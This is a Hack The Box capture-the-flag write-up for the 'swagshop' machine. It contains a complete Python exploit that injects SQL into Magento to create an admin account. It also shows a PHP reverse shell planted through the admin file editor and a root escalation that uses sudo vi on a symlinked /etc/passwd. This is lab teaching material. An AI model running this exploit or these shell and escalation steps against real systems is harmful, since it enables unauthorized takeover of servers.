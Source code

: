 # Write-up of swagshop HTB

We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...<br>
![](Selection_007.png)


Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)


![](Selection_008.png)


hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...


![](Selection_009.png)


Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel

![](Selection_010.png)

Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

![](Selection_011.png)

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...


![](Selection_012.png)

So after clicking it we got the portal to login

![](Selection_013.png)

we will use same creds from exploit *forme:forme*

![](Selection_014.png)

We will upload the filesystem extension 

![](Selection_015.png)

Now we will go back to admin panel by click on this section

![](Selection_016.png)

go to System -->File system-->IDE

![](Selection_017.png)

Open the get.php and replace with the php reverse shell which i got from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![](Selection_018.png)

We got the shell when we opened this link [http://10.10.10.140](http://10.10.10.140)

![](Selection_019.png)

now we will first make the shell fully interactive

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl +z
stty raw -echo  
fg
export SHELL=bash
export TERM=xterm
```
Output:-
```
$ which python3                  
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nvlp 1234
[sarthak@sarthak swagshop]$ stty raw -echo  
[sarthak@sarthak swagshop]$ nc -nvlp 1234

www-data@swagshop:/$ export SHELL=bash
www-data@swagshop:/$ export TERM=xterm
www-data@swagshop:/$ 
```

now we will see if we have sudo permissions

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 

```

We can run vi with everything inside html so what we will do is we will make a symlink of passwd file and we will place a openssl hash at root section to login !!


We have created a symlink ...<br>
```
www-data@swagshop:/$ ln -s /etc/passwd /var/www/html/
```

Now we have created a password hash for root as 'pass123'

![](Selection_021.png)

Open passwd file with vi
```
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/passwd
```
Placed the hash 

![](Selection_022.png)

Now login as root

```
www-data@swagshop:/$ su root
Password: 
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# 
```

And we got root !!!!

<<gif>>

That's for all for today guys :grimacing:<br>
I hope you would enjoy this writeup..!!




